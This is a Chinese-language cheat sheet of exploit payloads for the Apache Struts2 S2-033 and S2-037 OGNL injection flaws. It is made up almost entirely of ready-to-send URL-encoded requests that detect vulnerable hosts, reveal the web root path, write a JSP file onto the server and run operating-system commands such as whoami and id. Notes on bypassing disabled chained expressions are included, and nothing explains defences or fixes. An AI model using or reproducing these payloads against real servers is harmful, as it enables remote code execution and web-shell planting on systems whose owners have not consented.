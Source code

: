 Struts2 S2-033 and S2-037 Payload
以下Payload适用于S2-033和S2-037。

S2-033 使用 !
S2-037 使用 /

检测：
%28%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23wr.println(%23parameters.content[0]),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=7ym0n

获取路径：
%28%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23wr.println(%23context.get(%23parameters.reqobj[0]).getRealPath(%23parameters.content[0])),%23wr.flush(),%23wr.close()):xx.toString.json?reqobj=com.opensymphony.xwork2.dispatcher.HttpServletRequest&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=7ym0.q6e

命令执行:
(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=7ym0n&command=whoami 

检测方式
/(%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS)%3F((%23writ%3D(%23attr%5B%23parameters.com%5B0%5D%5D).getWriter())%2C%23writ.println(%23parameters.rst[0])):index.xhtml?com=com.opensymphony.xwork2.dispatcher.HttpServletResponse&rst=<name>7ym0n.q6e</name>

获取web路径
/struts2-rest-showcase-2.3.28/orders/3/%28%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29%3f(%23a%3d%23parameters.reqobj[0],%23c%3d%23parameters.reqobj[1],%23req%3d%23context.get(%23a),%23b%3d%23req.getRealPath(%23c)%2b%23parameters.reqobj[2],%23hh%3d%23context.get(%23parameters.rpsobj[0]),%23hh.getWriter().println(%23b),%23hh.getWriter().flush(),%23hh.getWriter().close()):xx.toString.json?reqobj=com.opensymphony.xwork2.dispatcher.HttpServletRequest&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&reqobj=%2f&reqobj=7ym0n.jsp
或者
%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23rsp%3d@org.apache.struts2.ServletActionContext@getResponse(),%23rsp.setCharacterEncoding(%23parameters.encoding[0]),%23rsp.getWriter().write(@org.apache.struts2.ServletActionContext@getRequest().getRealPath(%23parameters.pp[0])),%23rsp.getWriter().flush(),%23rsp.getWriter().close(),%23xx%3d123,%23xx.toString.json?&pp=/secdomain.jsp&encoding=UTF-8
//上面在某些windows环境中可能是这个错误(Eval expressions/chained expressions have been disabled!)
%28%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29%3f(%23rsp%3d@org.apache.struts2.ServletActionContext@getResponse(),%23rsp.setCharacterEncoding(%23parameters.encoding[0]),%23rsp.getWriter().write(@org.apache.struts2.ServletActionContext@getRequest().getRealPath(%23parameters.pp[0])),%23rsp.getWriter().flush(),%23rsp.getWriter().close()):xx.toString.json?&pp=/secdomain.jsp&encoding=UTF-8

上传文件
/struts2-rest-showcase-2.3.28/orders/3/%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23a%3d%23parameters.reqobj[0],%23c%3d%23parameters.reqobj[1],%23req%3d%23context.get(%23a),%23b%3d%23req.getRealPath(%23c)%2b%23parameters.reqobj[2],%23fos%3dnew java.io.FileOutputStream(%23b),%23fos.write(%23parameters.content[0].getBytes()),%23fos.close(),%23hh%3d%23context.get(%23parameters.rpsobj[0]),%23hh.getWriter().println(%23b),%23hh.getWriter().flush(),%23hh.getWriter().close(),%23xx%3d123,%23xx.toString.json?%23xx:%23request.toString&reqobj=com.opensymphony.xwork2.dispatcher.HttpServletRequest&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&reqobj=%2f&reqobj=7ym0n.jsp&content=wohuigaosuni%2Czhelishi%20JSP
//某些环节无法执行expressions/chained，使用下面这个
/struts2-037/orders/3/%28%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29%3f(%23a%3d%23parameters.reqobj[0],%23c%3d%23parameters.reqobj[1],%23req%3d%23context.get(%23a),%23b%3d%23req.getRealPath(%23c)%2b%23parameters.reqobj[2],%23fos%3dnew java.io.FileOutputStream(%23b),%23fos.write(%23parameters.content[0].getBytes()),%23fos.close(),%23hh%3d%23context.get(%23parameters.rpsobj[0]),%23hh.getWriter().println(%23b),%23hh.getWriter().flush(),%23hh.getWriter().close()):xx.toString.json?reqobj=com.opensymphony.xwork2.dispatcher.HttpServletRequest&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&reqobj=%2f&reqobj=7ym0n.jsp&content=wohuigaosuni%2Czhelishi%20JSP

命令执行
/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=id
或者
/%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%23parameters.command[0]).getInputStream()%2c%23b%3dnew java.io.InputStreamReader(%23a)%2c%23c%3dnew java.io.BufferedReader(%23b)%2c%23d%3dnew char[51020]%2c%23c.read(%23d)%2c%23kxlzx%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kxlzx.print(%23d)%2c%23kxlzx.close(),%23xx%3d123,%23xx.toString.json?%23xx:%23request.toString&command=id
或者
/%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23a%3d%40java.lang.Runtime%40getRuntime().exec(%23parameters.command[0]).getInputStream(),%23b%3dnew java.io.InputStreamReader(%23a),%23c%3dnew java.io.BufferedReader(%23b),%23d%3dnew char[51020],%23c.read(%23d),%23hh=%23context.get(%23parameters.rpsobj[0]),%23hh.getWriter().println(%23d),%23hh.getWriter().flush(),%23hh.getWriter().close(),%23xx%3d123,%23xx.toString.json?%23xx:%23request.toString.json&command=id&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse